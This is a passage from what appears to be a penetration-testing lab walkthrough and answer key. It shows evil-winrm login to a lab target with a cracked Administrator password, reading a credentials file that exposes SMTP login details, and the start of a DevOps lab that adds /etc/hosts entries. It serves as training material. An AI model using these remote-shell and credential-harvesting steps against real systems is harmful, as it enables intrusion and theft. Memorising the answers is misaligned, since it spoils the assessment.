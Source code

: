 After cracking the passwords, students will discover that the plaintext password for the Administrator user is `christian1`. Subsequently, they will have to use `evil-winrm` to authenticate to the spawned target and grab the password located in the `creds.ps1` file on the Desktop.

Code: shell

```shell
evil-winrm -i STMIP -u Administrator -p christian1
type ../Desktop/creds.ps1
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ evil-winrm -i 10.129.228.187 -u Administrator -p christian1

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/creds.ps1
{
    "Port":  587,
    "Username":  "smtp-dev",
    "Password":  "SmtP@123",
    "SmtpServer":  "smtp.inlanefreight.local"
}
```

Answer: `SmtP@123`

# DevOps Not-So-Secrets

## Question 1

### "What is the flag value?"

Students need to spawn the target machine and subsequently update their `/etc/host` file.

Code: shell

```shell
sudo tee -a /etc/hosts <<EOF
STMIP gitea.inlanefreight.local
STMIP jenkins.inlanefreight.local
EOF
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ sudo tee -a /etc/hosts <<EOF
10.129.228.194 gitea.inlanefreight.local
10.129.228.194 jenkins.inlanefreight.local
EOF
10.129.228.194 gitea.inlanefreight.local
10.129.228.194 jenkins.inlanefreight.loca
```
